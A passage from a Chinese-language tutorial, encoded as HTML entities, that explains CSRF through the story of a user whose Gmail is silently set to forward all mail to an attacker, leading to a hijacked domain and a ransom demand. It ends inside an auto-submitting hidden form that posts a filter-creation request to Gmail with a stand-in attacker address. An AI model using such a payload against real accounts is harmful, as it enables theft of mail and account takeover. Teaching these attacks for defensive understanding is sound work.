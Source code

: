 CSRF&#xFF0C;&#x5176;&#x5B9E;&#x76F8;&#x6BD4;XSS&#xFF0C;CSRF&#x7684;&#x540D;&#x6C14;&#x4F3C;&#x4E4E;&#x5E76;&#x4E0D;&#x662F;&#x90A3;&#x4E48;&#x5927;&#xFF0C;&#x5F88;&#x591A;&#x4EBA;&#x90FD;&#x8BA4;&#x4E3A;&#x201C;CSRF&#x4E0D;&#x5177;&#x5907;&#x90A3;&#x4E48;&#x5927;&#x7684;&#x7834;&#x574F;&#x6027;&#x201D;&#x3002;&#x771F;&#x7684;&#x662F;&#x8FD9;&#x6837;&#x5417;&#xFF1F;&#x63A5;&#x4E0B;&#x6765;&#xFF0C;&#x6211;&#x4EEC;&#x8FD8;&#x662F;&#x6709;&#x8BF7;&#x5C0F;&#x660E;&#x540C;&#x5B66;&#x518D;&#x6B21;&#x201C;&#x95EA;&#x4EAE;&#x201D;&#x767B;&#x573A;&#x3002;</p><h2 id="articleHeader2">CSRF&#x653B;&#x51FB;</h2><h3 id="articleHeader3">CSRF&#x6F0F;&#x6D1E;&#x7684;&#x53D1;&#x751F;</h3><p>&#x76F8;&#x6BD4;XSS&#xFF0C;CSRF&#x7684;&#x540D;&#x6C14;&#x4F3C;&#x4E4E;&#x5E76;&#x4E0D;&#x662F;&#x90A3;&#x4E48;&#x5927;&#xFF0C;&#x5F88;&#x591A;&#x4EBA;&#x90FD;&#x8BA4;&#x4E3A;CSRF&#x201C;&#x4E0D;&#x90A3;&#x4E48;&#x6709;&#x7834;&#x574F;&#x6027;&#x201D;&#x3002;&#x771F;&#x7684;&#x662F;&#x8FD9;&#x6837;&#x5417;&#xFF1F;</p><p>&#x63A5;&#x4E0B;&#x6765;&#x6709;&#x8BF7;&#x5C0F;&#x660E;&#x51FA;&#x573A;~~</p><h4>&#x5C0F;&#x660E;&#x7684;&#x60B2;&#x60E8;&#x906D;&#x9047;</h4><p>&#x8FD9;&#x4E00;&#x5929;&#xFF0C;&#x5C0F;&#x660E;&#x540C;&#x5B66;&#x767E;&#x65E0;&#x804A;&#x8D56;&#x5730;&#x5237;&#x7740;Gmail&#x90AE;&#x4EF6;&#x3002;&#x5927;&#x90E8;&#x5206;&#x90FD;&#x662F;&#x6CA1;&#x8425;&#x517B;&#x7684;&#x901A;&#x77E5;&#x3001;&#x9A8C;&#x8BC1;&#x7801;&#x3001;&#x804A;&#x5929;&#x8BB0;&#x5F55;&#x4E4B;&#x7C7B;&#x3002;&#x4F46;&#x6709;&#x4E00;&#x5C01;&#x90AE;&#x4EF6;&#x5F15;&#x8D77;&#x4E86;&#x5C0F;&#x660E;&#x7684;&#x6CE8;&#x610F;&#xFF1A;</p><blockquote>&#x7529;&#x5356;&#x6BD4;&#x7279;&#x5E01;&#xFF0C;&#x4E00;&#x4E2A;&#x53EA;&#x8981;998&#xFF01;&#xFF01;</blockquote><p>&#x806A;&#x660E;&#x7684;&#x5C0F;&#x660E;&#x5F53;&#x7136;&#x77E5;&#x9053;&#x8FD9;&#x79CD;&#x80AF;&#x5B9A;&#x662F;&#x9A97;&#x5B50;&#xFF0C;&#x4F46;&#x8FD8;&#x662F;&#x62B1;&#x7740;&#x597D;&#x5947;&#x7684;&#x6001;&#x5EA6;&#x70B9;&#x4E86;&#x8FDB;&#x53BB;&#xFF08;&#x8BF7;&#x52FF;&#x6A21;&#x4EFF;&#xFF09;&#x3002;&#x679C;&#x7136;&#xFF0C;&#x8FD9;&#x53EA;&#x662F;&#x4E00;&#x4E2A;&#x4EC0;&#x4E48;&#x90FD;&#x6CA1;&#x6709;&#x7684;&#x7A7A;&#x767D;&#x9875;&#x9762;&#xFF0C;&#x5C0F;&#x660E;&#x5931;&#x671B;&#x7684;&#x5173;&#x95ED;&#x4E86;&#x9875;&#x9762;&#x3002;&#x4E00;&#x5207;&#x4F3C;&#x4E4E;&#x4EC0;&#x4E48;&#x90FD;&#x6CA1;&#x6709;&#x53D1;&#x751F;......</p><p>&#x5728;&#x8FD9;&#x5E73;&#x9759;&#x7684;&#x5916;&#x8868;&#x4E4B;&#x4E0B;&#xFF0C;&#x9ED1;&#x5BA2;&#x7684;&#x653B;&#x51FB;&#x5DF2;&#x7136;&#x5F97;&#x624B;&#x3002;&#x5C0F;&#x660E;&#x7684;Gmail&#x4E2D;&#xFF0C;&#x88AB;&#x5077;&#x5077;&#x8BBE;&#x7F6E;&#x4E86;&#x4E00;&#x4E2A;&#x8FC7;&#x6EE4;&#x89C4;&#x5219;&#xFF0C;&#x8FD9;&#x4E2A;&#x89C4;&#x5219;&#x4F7F;&#x5F97;&#x6240;&#x6709;&#x7684;&#x90AE;&#x4EF6;&#x90FD;&#x4F1A;&#x88AB;&#x81EA;&#x52A8;&#x8F6C;&#x53D1;&#x5230;haker@hackermail.com&#x3002;&#x5C0F;&#x660E;&#x8FD8;&#x5728;&#x7EE7;&#x7EED;&#x5237;&#x7740;&#x90AE;&#x4EF6;&#xFF0C;&#x6B8A;&#x4E0D;&#x77E5;&#x4ED6;&#x7684;&#x90AE;&#x4EF6;&#x6B63;&#x5728;&#x4E00;&#x5C01;&#x5C01;&#x5730;&#xFF0C;&#x5982;&#x8131;&#x7F30;&#x7684;&#x91CE;&#x9A6C;&#x4E00;&#x822C;&#x5730;&#xFF0C;&#x6301;&#x7EED;&#x4E0D;&#x65AD;&#x5730;&#x5411;&#x7740;&#x9ED1;&#x5BA2;&#x7684;&#x90AE;&#x7BB1;&#x8F6C;&#x53D1;&#x800C;&#x53BB;&#x3002;</p><p>&#x4E0D;&#x4E45;&#x4E4B;&#x540E;&#x7684;&#x4E00;&#x5929;&#xFF0C;&#x5C0F;&#x660E;&#x53D1;&#x73B0;&#x81EA;&#x5DF1;&#x7684;&#x57DF;&#x540D;&#x5DF2;&#x7ECF;&#x88AB;&#x8F6C;&#x8BA9;&#x4E86;&#x3002;&#x61F5;&#x61C2;&#x7684;&#x5C0F;&#x660E;&#x4EE5;&#x4E3A;&#x662F;&#x57DF;&#x540D;&#x5230;&#x671F;&#x81EA;&#x5DF1;&#x5FD8;&#x4E86;&#x7EED;&#x8D39;&#xFF0C;&#x76F4;&#x5230;&#x6709;&#x4E00;&#x5929;&#xFF0C;&#x5BF9;&#x65B9;&#x5F00;&#x51FA;&#x4E86; $650 &#x7684;&#x8D4E;&#x56DE;&#x4EF7;&#x7801;&#xFF0C;&#x5C0F;&#x660E;&#x624D;&#x5F00;&#x59CB;&#x89C9;&#x5F97;&#x4E0D;&#x592A;&#x5BF9;&#x52B2;&#x3002;</p><p>&#x5C0F;&#x660E;&#x4ED4;&#x7EC6;&#x67E5;&#x4E86;&#x4E0B;&#x57DF;&#x540D;&#x7684;&#x8F6C;&#x8BA9;&#xFF0C;&#x5BF9;&#x65B9;&#x662F;&#x62E5;&#x6709;&#x81EA;&#x5DF1;&#x7684;&#x9A8C;&#x8BC1;&#x7801;&#x7684;&#xFF0C;&#x800C;&#x57DF;&#x540D;&#x7684;&#x9A8C;&#x8BC1;&#x7801;&#x53EA;&#x5B58;&#x5728;&#x4E8E;&#x81EA;&#x5DF1;&#x7684;&#x90AE;&#x7BB1;&#x91CC;&#x9762;&#x3002;&#x5C0F;&#x660E;&#x56DE;&#x60F3;&#x8D77;&#x90A3;&#x5929;&#x5947;&#x602A;&#x7684;&#x94FE;&#x63A5;&#xFF0C;&#x6253;&#x5F00;&#x540E;&#x91CD;&#x65B0;&#x67E5;&#x770B;&#x4E86;&#x201C;&#x7A7A;&#x767D;&#x9875;&#x201D;&#x7684;&#x6E90;&#x7801;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;form method=&quot;POST&quot; action=&quot;https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf&quot; enctype=&quot;multipart/form-data&quot;&gt; 
    &lt;input type=&quot;hidden&quot; name=&quot;cf2_emc&quot; value=&quot;true&quot;/&gt; 
    &lt;input type=&quot;hidden&quot; name=&quot;cf2_email&quot; value=&quot;hacker@hakermail.com&quot;/&gt; 
    .....
    &lt;input type=&quot;hidden&quot; name=&quot;irf&quot; value=&quot;on&quot;/&gt; 
    &lt;input type=&quot;hidden&quot; name=&quot;nvp_bu_cftb&quot; value=&quot;Create Filter&quot;/&gt; 
&lt;/form&gt; 
&lt;script&gt; 
    document.forms[0].submit();